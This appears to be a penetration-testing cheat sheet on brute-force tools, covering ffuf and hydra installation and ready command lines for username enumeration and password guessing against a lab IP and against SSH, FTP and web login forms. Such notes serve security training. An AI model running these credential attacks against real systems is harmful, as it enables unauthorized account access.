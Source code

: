 # ⚙ Bruteforce tools

![](https://media0.giphy.com/media/l3fzT5zFwWu4qaMwM/giphy.gif?cid=ecf05e47di3px41edfczlb6njwlgi5v14azilnbcz5dy4r9v\&rid=giphy.gif\&ct=g)

## `Ffuf`

### Installation

{% embed url="https://github.com/ffuf/ffuf" %}

{% hint style="info" %}
_<mark style="color:blue;">Make sure you have</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**go**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">version</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**1.13 or greater**</mark><mark style="color:blue;">.</mark>_
{% endhint %}

### Go | Update

```bash
# Remove the golang-go package

sudo apt-get remove golang-go

# Remove the golang-go dependencies

sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package

sudo rm -rvf /usr/local/go

# Install the new Go version

wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file

sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables

source ~/.profile

# Verify Go version

go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Bruteforce Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

## `Hydra`

{% hint style="info" %}
<mark style="color:blue;">**Bruteforce**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">tool.</mark>
{% endhint %}

### Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

### Flags

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

### Usage

#### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

#### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

#### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

###
